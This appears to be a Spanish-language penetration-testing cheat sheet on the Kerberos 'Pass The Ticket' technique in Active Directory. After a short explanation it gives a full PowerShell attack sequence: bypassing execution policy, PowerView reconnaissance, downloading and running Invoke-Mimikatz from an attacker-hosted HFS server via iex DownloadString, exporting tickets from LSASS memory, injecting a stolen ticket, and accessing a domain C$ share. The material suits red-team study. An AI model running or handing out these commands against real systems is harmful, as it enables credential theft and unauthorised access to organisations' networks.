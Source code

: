 # Pass The Ticket 

Tags: #AD #Windows #PassTheTicket 

Es una técnica para robar credenciales que usan los atacantes para robar tickets de Kerberos para autenticarse con los recursos, archivos compartidos, y otras computadoras como un usuario sin tener que la contraseña del usuario comprometida.  Ambos, TGS (Ticket-Granting Service) y TGT (Ticket-Granting Ticket) puede ser robado y rehusado por los atacantes.  Sin los privilegios administrativos, un atacante puede obtener el TGT (usando 'delegacion fake') y todos los tickets para el usuario actual. Con permisos administrativos, un atacante puede dumpear los procesos LSASS y obtener todos los TGTs y capturar los tickets TGS en el sistema. 

```bash
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas
 	
# Reconocimiento 
❯ . .\PowerView.ps1                          # Importamos el modulo

❯ Find-LocalAdminAccess                      # Descubrir maquinas en el AD donde el user tiene acceso local de Admin
❯ Enter-PSSession <seclogs.domian.local>     # Nos autenticamos a la sesion local via remota en el 'DOMINIO' 
	❯ whoami /priv                          # Miramos si tenemos los priv para elevar los privilegios 

# En la maquina del DC abrimos un 'HFS' para transferir el archivo 'Invoke-Mimikatz.ps1' a la sesion remota 
	❯ cd /                                  # Nos dirigimos a la carpeta 'root' de la sesion remota 
	❯ iex (New-Object New.WebClient).DownloadString('http://IP-HFS/Invoke-Mimikatz.ps1')  # Descargamos en la sesion remota el modulo que se encuentra en el DC de la maquina no remota llamado 'Invoke-Mimikatz.ps1' por medio del 'HFS' para despues utilizarlo dentro de la misma sesion remota 
	❯ Invoke-Mimikatz -Command '"sekurlsa::tickets /export "' # Exportamos los tickets de Kerberos locales desde la memoria LSASS
	❯ ls | select name                      # Listamos los tickets (.kirbi) y escogemos el 'maintainer@krbtgt'
	❯ Invoke-Mimikatz -Command '"kerberos::ptt <ticket>"'     # ptt = Pass-The-Ticket 

# Una vez dentro 
❯ klist          # Mirar si el ticket de Kerberos si funciono y cambio 'Analizar el ticket'
	❯ klist purge                           # Si hacemos mal el ticket los podemos eliminar asi
❯ ls \\Domain.local\c$    # Listar los directoriso en C siempre y cuando tengamos los permisos 

```